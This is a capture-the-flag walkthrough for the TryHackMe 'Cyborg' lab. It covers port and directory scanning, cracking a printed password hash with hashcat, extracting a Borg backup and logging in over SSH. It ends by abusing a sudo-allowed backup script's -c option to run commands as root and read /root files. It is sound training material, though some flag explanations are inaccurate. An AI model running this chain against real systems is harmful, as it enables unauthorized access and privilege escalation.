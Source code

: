 # TRYHACKME – Cyborg (CTF)

![6cc3e134a104210f90367c6557e42b6e.jpeg](img/995dbcf2-4ed1-441d-bde4-bdacabe5636a.png)

[Difficulty](img/Difficulty%2011d906d6ee19808b98d8c82328d0d3be.csv)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![Untitled.png](img/Untitled.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![2024-10-12 02_44_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_44_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Directories found:

/admin

/etc

![2024-10-12 02_45_55-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_45_55-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_53-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_53-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![2024-10-12 02_49_47-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_49_47-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![2024-10-12 02_51_27-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_51_27-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_55_34-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_55_34-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_57_22-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_57_22-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox%201.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![2024-10-12 03_02_04-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_02_04-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![2024-10-12 03_03_59-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_03_59-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat user.txt`**

![2024-10-12 03_05_03-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_05_03-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![2024-10-12 03_06_23-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_06_23-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![2024-10-12 03_11_51-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_11_51-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat backup.sh`**

![2024-10-12 03_13_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_13_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![2024-10-12 03_20_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_20_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![2024-10-12 03_21_40-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_21_40-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)
